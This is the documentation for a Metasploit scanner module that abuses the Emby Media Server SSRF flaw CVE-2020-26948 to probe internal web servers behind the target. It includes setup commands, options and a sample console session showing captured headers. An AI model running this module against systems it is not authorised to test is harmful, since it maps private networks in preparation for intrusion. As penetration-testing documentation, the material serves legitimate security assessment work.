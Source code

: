 ## Vulnerable Application
This module has been tested on Emby Media Server versions older than 4.5.

### Description

Generates a `GET` request to the provided web servers and executes an SSRF against the targeted EMBY server.
Returns the server header, HTML title, and location header. This is useful for rapidly identifying web applications
on the internal network using the Emby SSRF vulnerability (CVE-2020-26948).

## Verification Steps

  1. Do: `use auxiliary/scanner/http/emby_ssrf_scanner`
  2. Do: `set rhosts [ips]`
  3. Do: `set emby_server [emby_server_ip]`
  4. Do: `run`

## Options

### PORTS

Select which ports to check for HTTP servers internal to the Emby server. Defaults to `80,8080,8081,8888`.

### EMBY_SERVER

IP address of the Emby server to use. Required.

### EMBY_PORT

Emby server access port. Defaults to 8096.
### SHOW_TITLES

If set to `false`, will not show the titles on the console as they are grabbed. Defaults to `true`.
### STORE_NOTES

If set to `false`, will not store the captured information in notes. Use `notes -t http.title` to view. Defaults to `true`.

## Scenarios

### Emby Server (v4.4.3 on Ubuntu) - Scan Internal 192.168.2.0 Network

```
msf6 > use auxiliary/scanner/http/emby_ssrf_scanner
msf6 auxiliary(scanner/http/emby_ssrf_scanner) > set emby_server 10.10.200.32
emby_server => 10.10.200.32
msf6 auxiliary(scanner/http/emby_ssrf_scanner) > set rhosts 192.168.2.3
rhosts => 192.168.2.3
msf6 auxiliary(scanner/http/emby_ssrf_scanner) > run

[+] 192.168.2.3:8096 Title: Emby
[+] 192.168.2.3:8096     HTTP Code: 200
[+] 192.168.2.3:8096     Location Header:
[+] 192.168.2.3:8096     Server Header: UPnP/1.0 DLNADOC/1.50
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
